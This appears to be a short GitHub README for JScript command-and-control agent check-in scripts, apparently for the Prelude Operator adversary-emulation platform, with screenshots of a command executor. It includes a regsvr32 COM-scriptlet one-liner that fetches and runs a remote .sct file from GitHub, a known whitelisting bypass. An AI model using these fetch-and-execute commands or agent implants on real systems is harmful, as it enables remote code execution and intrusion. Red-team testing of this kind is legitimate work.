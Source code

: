 ## Examples in JScript.

Most basic agent checkin, this supports the cmd executor.

`cscript.exe checkin_minimalist.js]`

## COM Scriptlet

`regsvr32.exe /s /u /i:https://raw.githubusercontent.com/secdev-01/PreludeOperator_QuickCheck/main/jscript/prelude_checkin.sct scrobj.dll`

## cscript

`cscript dotnet_interop.js`

Create a simple TTP that uses cmd executor

<img width="1000" alt="Screen Shot 2021-06-26 at 5 22 51 PM" src="https://user-images.githubusercontent.com/83469949/123528231-33159d80-d6a3-11eb-8cc3-2ccd2311c170.png">

STDOUT is returned as base64 encoded, so we don't have to deal with all the escaping etc...

Screen Shot 2021-06-26 at 5.17.40 PM<img width="777" alt="Screen Shot 2021-06-26 at 5 17 40 PM" src="https://user-images.githubusercontent.com/83469949/123528256-5f311e80-d6a3-11eb-90e2-c8cc0140eacf.png">


```
There is alot more to do here to make it more production ready, but in a sense these are some really simple building blocks

```
